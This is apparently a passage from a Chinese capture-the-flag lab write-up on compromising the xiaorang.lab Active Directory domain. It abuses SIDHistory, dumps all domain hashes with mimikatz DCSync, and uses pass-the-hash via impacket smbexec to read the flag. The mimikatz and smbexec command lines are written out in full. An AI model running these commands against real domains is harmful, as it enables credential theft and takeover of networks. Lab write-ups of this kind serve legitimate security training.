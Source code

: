 我可以利用这个工具得知我们要攻击的具体路径和大题思路

我可以看到，在 172.22.6.25 这个用户机，运行登录的用户有三个

而 yuxuan 用户滥用了 SID 历史功能 (SIDHistory 是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的 SID 作为该对象的 objectSid，在之前域中的 SID 会添加到该对象的 sIDHistory 属性中，此时该对象将保留在原来域的 SID 对应的访问权限)

所以我们切换到 yuxuan 用户，利用这个滥用的 SID 直接攻击 DC 机因为我们保留域管理员的访问权限了，所以直接 dump 哈希

```plain
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

拿到管理员的哈希

[![](assets/1706513339-67963297595b99e0f1abd391e89f0c99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128232230-0db52eec-bdf1-1.png)

我拿到管理员的哈希，就相当于拿下了域控，我们哈希传递一些就可以拿到 flag

```plain
proxychains python3 smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 administrator@172.22.6.12
```

```plain
type C:\Users\Administrator\flag\flag*
```

[![](assets/1706513339-3dc43bd3084652e01fcc9d286eb9f195.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128232235-101e4efc-bdf1-1.png)

```plain
proxychains python3 smbexec.py XIAORANG/administrator@172.22.6.25  -hashes :04d93ffd6f5f6e4490e0de23f240a5e9
```
